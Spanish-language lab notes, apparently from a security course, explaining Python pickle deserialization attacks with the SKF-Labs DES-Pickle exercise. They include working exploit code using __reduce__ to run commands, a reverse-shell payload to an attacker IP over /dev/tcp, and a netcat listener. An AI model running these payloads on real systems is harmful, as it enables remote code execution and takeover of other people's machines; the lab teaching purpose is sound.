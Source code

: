 # Python – Ataque de Deserialización Pickle (DES-Pickle)

Tags: #Des-Pickle #OWASP #Explotacion 

Un Ataque de **Deserialización Pickle** (**DES-Pickle**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

El impacto de un Ataque de Deserialización Pickle depende del tipo y la sensibilidad de los datos que se puedan obtener, pero puede ser muy grave. Por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren de forma adecuada la entrada Pickle que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables.

A continuación, se os proporciona el enlace al proyecto de Github el cual estaremos utilizando en esta clase para explotar la vulnerabilidad DES-Pickle:

- **SKF-LABS DES-Pickle**: [https://github.com/blabla1337/skf-labs/tree/master/python/DES-Pickle](https://github.com/blabla1337/skf-labs/tree/master/python/DES-Pickle)


## DES - PICKLE

Tenemos este laboratorio para practicar esta vulnerabilidad. 

![](Pasted%20image%2020230528175733.png)


Para poder hacer este tipo de ataques, debemos de crearnos un archivo Python en donde colocaremos lo siguiente:

```python
import pickle
import os
import binascii


class Exploit(object):
	def __reduce__(self):
		return (os.system, ('id',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit())))  
```

![](Pasted%20image%2020230528181048.png)

Si ejecutamos eso así nos saldrá una cadena de Bytes y nosotros necesitamos una cadena de Hexadecimal. Por lo que agregamos al final 'binascii.hexlify' 

![](Pasted%20image%2020230528181305.png)

Esa cadena ya la podemos colocar en la entrada de la pagina web. 

* Ahora si queremos ganar acceso a la maquina, lo que deberíamos de hacer es lo siguiente. 

```bash 
❯ nc -nlvp 443    # Ponernos en ecucha por el puerto 443 de nuestra maquina de atacante
```

```python
import pickle
import os
import binascii


class Exploit(object):
	def __reduce__(self):
		return (os.system, ('bash -c "bash -i >& /dev/tcp/192.168.68.1/443 0>&1"',))

if __name__ == '__main__':
	print(binascii.hexlify(pickle.dumps(Exploit())))  
```

Lo volvemos a convertir y lo pegamos en la web. 

![](Pasted%20image%2020230528181649.png)

![](Pasted%20image%2020230528181718.png)

Al momento de darle 'Submit' podremos ganar acceso a la maquina victima. 

Cabe mencionar que esto se logra ya que no existe algún tipo de deserialización y se esta confiando en el input del usuario.  